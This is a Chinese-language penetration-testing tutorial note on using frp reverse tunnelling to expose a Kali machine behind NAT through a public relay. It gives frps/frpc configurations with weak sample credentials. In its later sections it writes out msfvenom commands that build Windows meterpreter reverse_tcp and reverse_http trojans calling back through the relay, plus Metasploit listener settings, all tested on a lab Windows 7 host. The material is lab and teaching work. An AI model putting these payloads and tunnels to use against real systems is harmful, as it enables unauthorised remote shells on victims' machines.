

# kali公网渗透测试方法
#frp #内网穿透
## frp
### 反向
#### 服务端配置
[GitHub-frp仓库](https://github.com/fatedier/frp)，下载之后将frp分别拷贝到公网和内网主机上，在公网主机（Ubuntu，以下简称S）打开配置文件`nano frps.ini`中编辑设置如下。
```ini
#frps.ini
[common]
bind_port = 7777
dashboard_user = admin
dashboard_pwd = nimda
dashboard_port = 7776
token = nimda@admin
vhost_http_port = 8080
```

保存执行：`./frps -c ./frps.ini`


#### 客户端配置
内网主机（kali，以下简称C）打开配置文件`nano frpc.ini`中编辑设置如下。
```ini
# frpc.ini
[common]
server_addr = X.X.X.X
server_port = 7777
token = nimda@admin

[web]
type = http
local_ip = 0.0.0.0
local_port = 80
custom_domains = X.X.X.X
remote_port = 8888

[ssh]
type = tcp
local_ip = 0.0.0.0
local_port = 22
custom_domains = X.X.X.X
remote_port = 2222

[reverse_tcp]
type = tcp
local_ip = 0.0.0.0
local_port = 4444
custom_domains = X.X.X.X
remote_port = 4444

[cs]
type = tcp
local_ip = 0.0.0.0
local_port = 1111
custom_domains = X.X.X.X
remote_port = 1111
```

保存执行：`./frpc -c ./frpc.ini`


#### 测试http服务器
访问http://X.X.X.X:8888，成功看到C上的文件。


#### 测试ssh
执行`ssh kali@X.X.X.X -p 2222`输入yes和密码后成功弹shell。

#### 测试反向tcp
C中执行`msfvenom -p windows/meterpreter/reverse_tcp lhost=X.X.X.X lport=4444 -f exe > tcp.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
```


靶机使用NAT，kali使用桥接，相当于两者在不同内网中，在靶机（windows7，以下简称B）中执行木马文件，在kali中看到session。

#### 测试反向http
C中执行`msfvenom -p windows/meterpreter/reverse_http lhost=X.X.X.X lport=8888 -f exe > http.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 80
```


在B上执行木马文件，在kali中看到session。

#### 测试CS
在S上开启teamserver。


在C上连接S，设置监听器。


待续

### 正向